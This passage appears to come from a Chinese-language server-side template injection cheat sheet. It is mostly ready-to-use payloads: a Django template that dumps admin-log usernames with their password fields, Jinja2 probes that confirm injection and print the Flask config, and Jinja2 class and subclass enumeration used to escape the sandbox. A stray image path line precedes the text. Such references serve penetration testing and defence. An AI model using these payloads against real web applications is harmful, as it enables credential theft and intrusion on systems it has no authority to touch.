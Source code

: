 
```
{% load log %}{% get_admin_log 10 as log %}{% for e in log %}
{{e.user.get_username}} : {{e.user.password}}{% endfor %}
```

## Jinja2

[官方网站](https://jinja.palletsprojects.com/)

> Jinja2 是一个功能齐全的 Python 模板引擎。它支持完整的 Unicode，并且可以选择性地集成沙箱执行环境，被广泛使用且采用 BSD 许可。

### Jinja2 - 基础注入

```python
{{4*4}}[[5*5]]
{{7*'7'}} 将得到 7777777
{{config.items()}}
```

Jinja2 被 Python Web 框架如 Django 或 Flask 使用。
上述注入已在 Flask 应用程序上进行了测试。

### Jinja2 - 模板格式

```python
{% extends "layout.html" %}
{% block body %}
  <ul>
  {% for user in users %}
    <li><a href="{{ user.url }}">{{ user.username }}</a></li>
  {% endfor %}
  </ul>
{% endblock %}

```

### Jinja2 - 调试语句

如果启用了 Debug 扩展，将可以使用 `{% debug %}` 标签来转储当前上下文以及可用的过滤器和测试。这对于在不设置调试器的情况下查看模板中可使用的内容非常有用。

```python
<pre>{% debug %}</pre>
```

来源: https://jinja.palletsprojects.com/en/2.11.x/templates/#debug-statement

### Jinja2 - 转储所有使用的类

```python
{{ [].class.base.subclasses() }}
{{''.class.mro()[1].subclasses()}}
{{ ''.__class__.__mro__[2].__subclasses__() }}
```


